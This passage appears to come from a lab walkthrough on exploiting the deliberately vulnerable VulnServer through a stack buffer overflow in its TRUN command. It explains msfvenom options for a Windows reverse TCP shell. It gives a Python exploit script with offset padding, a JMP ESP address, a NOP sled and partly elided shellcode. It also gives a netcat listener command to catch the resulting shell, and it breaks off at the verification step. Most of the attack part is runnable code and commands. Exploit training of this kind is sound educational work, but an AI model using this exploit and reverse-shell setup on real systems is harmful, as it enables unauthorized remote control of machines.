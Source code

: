     - **Explanation**:
        - `p windows/shell_reverse_tcp`: Payload for a Windows reverse TCP shell.
        - `LHOST`: Kali machine IP address (attacker’s IP).
        - `LPORT`: Listening port (e.g., `4444`).
        - `EXITFUNC=thread`: Improves stability by exiting via the thread.
        - `f c`: Output shellcode in C format.
        - `a x86`: Target architecture.
        - `b "\\x00"`: Exclude bad characters (e.g., `\\x00`).
3. **Integrating Shellcode into the Exploit Script**:
    - Copy the generated shellcode and add it to the Python script as a variable.
    - **Modified Exploit Script (**`**final_exploit.py**`**)**:
        
        ```Python
        #!/usr/bin/env python3
        import sys, socket
        
        # Shellcode generated by msfvenom
        overflow = (
            "\\xda\\xc9\\xd9\\x74\\x24\\xf4\\x5b\\xbf\\x5f\\x83\\x5a\\xf8\\x31\\xc9\\xb1"
            # Continue with the rest of the shellcode
        )
        
        # Final payload
        payload = "A" * 2003 + "\\xaf\\x11\\x50\\x62" + "\\x90" * 32 + overflow
        
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("192.168.1.90", 9999))  # Replace with VulnServer's IP
            s.send(("TRUN /.:/" + payload).encode('latin-1'))
            s.close()
        except:
            print("Error connecting to server")
            sys.exit()
        ```
        
    - **Explanation**:
        - `"A" * 2003`: Fills buffer up to the EIP.
        - `"\\xaf\\x11\\x50\\x62"`: JMP ESP address in `essfunc.dll` (reversed due to little-endian format).
        - `"\\x90" * 32`: NOP sled, providing padding to ensure shellcode stability.
        - `overflow`: Shellcode generated by `msfvenom`.
4. **Setting Up the Listener**:
    - Start a Netcat listener on Kali to catch the reverse shell:
        
        ```Shell
        nc -lvnp 4444
        ```
        
5. **Executing the Exploit**:
    - Run _VulnServer_ as an administrator (Immunity Debugger is not needed this time).
    - Execute the Python exploit script.
    - **Expected Result**: The Netcat listener should receive a connection, providing a shell on the target machine.
6. **Verification**:
    - Once the shell is open, execute commands to verify access:
        